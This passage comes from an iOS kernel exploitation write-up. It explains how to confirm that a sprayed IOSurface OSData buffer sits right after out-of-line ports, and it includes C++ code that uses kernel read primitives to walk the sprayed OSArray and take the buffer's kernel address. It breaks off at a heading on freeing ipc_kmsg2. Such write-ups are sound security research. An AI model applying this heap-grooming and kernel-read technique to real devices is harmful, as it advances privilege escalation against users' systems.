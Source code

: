 ```cpp
```

To verify whether it is actually located right after ool ports, I implemented following code.

If `osarray_count` we sprayed matches, then iterate through that count and read `data` field of each OSData structure to look for regions filled with `0x42..` values.

As mentioned earlier, at some point during the 640 sprays, one of them will inevitably land right after ool ports and will be located at higher address.

So check whether retrieved address is indeed higher than ool ports allocation address.

```cpp
#if ENABLE_HELPER
    dict = kernel_fetch_dict(userspaceValueDicts);
    uint64_t kfree_buffer_addr = 0;
    
    for (int i = 0; i < dict->count; i++) {
        if(dict->items[i].value) {
            uint32_t osarray_count = kread32(dict->items[i].value + off_osarray_count);
            uint32_t osarray_capacity = kread32(dict->items[i].value + off_osarray_capacity);
            uint64_t osarray_array = kread64(dict->items[i].value + off_osarray_array);

            if(osarray_count == (80 MB / (8 * pagesize))) {
                SUCCESS("Found our 2nd sprayed IOSurface data!\n");
                // INFO("osarray_count = 0x%x, osarray_capacity = 0x%x\n", osarray_capacity, osarray_capacity);

                for(uint32_t j = 0; j < osarray_count; j++) {
                    uint64_t osdata_in_osarray = OSArray_objectAtIndex(dict->items[i].value, j);
                    uint64_t kbuffer = OSData_buffer(osdata_in_osarray);
                    // printf("osdata_in_osarray = 0x%llx\n", osdata_in_osarray);
                    // printf("osdata_kbuffer(OSArray[%u]) = 0x%llx\n", j, kbuffer);
                    if(oolports_kptr < kbuffer) {
                        kfree_buffer_addr = kbuffer;
                        break;
                    }
                }
            }
        }
    }
```

![image.png](pics/image%208.png)

## 8. Freeing ipc_kmsg2
